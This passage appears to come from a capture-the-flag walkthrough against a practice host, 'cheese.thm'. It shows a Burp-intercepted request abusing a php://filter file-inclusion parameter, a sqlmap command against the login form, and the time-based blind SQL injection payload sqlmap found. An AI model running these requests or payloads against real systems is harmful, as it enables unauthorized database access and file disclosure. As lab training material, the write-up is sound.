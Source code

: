 > Ok. I'm intercepting this request in BurpSuite to make it easier for me to work with the url parameter in repeater:

```html

GET /secret-script.php?file=php://filter/resource=supersecretmessageforadmin HTTP/1.1
Host: cheese.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://cheese.thm/messages.html
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

> to sum it up briefly. I have a **login form** that transmits data to the server in clear text and there is a **secret-script.php script**
> that allows you to include files via the file parameter using the php://filter wrapper for filtering, which may be vulnerable

> I have potentially **two possible entry points**.

---

## Entry Point

> Ok. Now the most interesting part. The further development of the attack vector is ambiguous because there are nuances that i will talk about later.
> During my walkthrough it turned out that there are two ways to compromise the system, but one of them does not work for reasons unknown to me.

> I'll start with the vector that i tried to develop first through the **SQL vulnerability in the login form.**


> I get started **sqlman** scan to detect vulnerability in **login.php** form

```bash

sudo sqlmap -u "http://cheese.thm/login.php" --data="username=admin&password=admin" --batch --level=3 --risk=2

```

> Result:

```bash

---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 4550 FROM (SELECT(SLEEP(5)))iqVS)-- Dnvc&password=admin
---

```
